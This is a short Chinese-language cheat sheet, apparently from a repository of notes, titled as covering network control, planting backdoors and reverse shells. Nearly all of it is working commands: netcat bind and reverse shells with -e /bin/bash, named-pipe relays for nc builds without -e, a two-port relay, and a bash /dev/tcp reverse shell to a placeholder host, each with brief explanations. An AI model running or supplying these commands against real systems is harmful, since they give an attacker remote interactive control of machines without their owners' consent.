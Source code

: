 ## 网络控制/建立后门/反弹shell

* 监听型(客户端使用服务端shell)

    ```sh
    A: nc -l 333 -e /bin/bash
    B: nc -nc <IP-A> 333
    ```

* 连接型(服务端可使用客户端shell)

    ```sh
    A: nc -l 333
    B: nc -nv <IP-A> 333 -e /bin/bash
    ```


* RHEL6 安装的`nc`不支持`-e`和`-c`选项, 需要使用`ncat`, 或者使用以下几种办法方法。

    * 监听型

        ```sh
        A: mkfifo /tmp/backpipe
        A: cat /tmp/backpipe | /bin/bash -i 2>&1 | nc -l 333 >/tmp/backpipe
        B: nc -nv <IP-A> 333
        ```

    * 连接型

        ```sh
        A: nc -l 333
        B: mknod /tmp/backpipe p    # 等同于 mkfifo /tmp/backpipo
        B: /bin/bash 0</tmp/backpipe | nc <IP-A> 333 >/tmp/backpipe
        ```

    * 两个端口实现

        ```sh
        A: nc -l 333
        A: nc -l 334
        B: nc -nv <IP-A> 333 | /bin/bash 2>&1 | nc -nv <IP-A> 334  # 333端口接受输入, 334端口发送输出
        ```


* 一端未安装`netcat`或者`ncat`(监听型)

    * shell实现

        ```sh
        A: nc -l 333
        B: /bin/bash -i >& /dev/tcp/<IP-A>/333 0>&1

        # /bin/bash -i : 交互模式启动bash shell
        # >& : 重定向符, 如果在其后面加文件描述符,  则将bash -i交互模式传递给文件描述符号；如果是文件, 则传递给文件
        #      /dev/tcp/<IP>/<PORT> 表示传递给远程主机的TCP <IP:PORT>端口
        # 文件描述符： 0: 标准输入；1: 标准输出；2:标准错误 
        # 0>&1 : 标准输入重定向到标准输出, 实现远程的输入可以在远程输出对应的内容(B端的输入能够作为输出被A端bash接受)
        ```

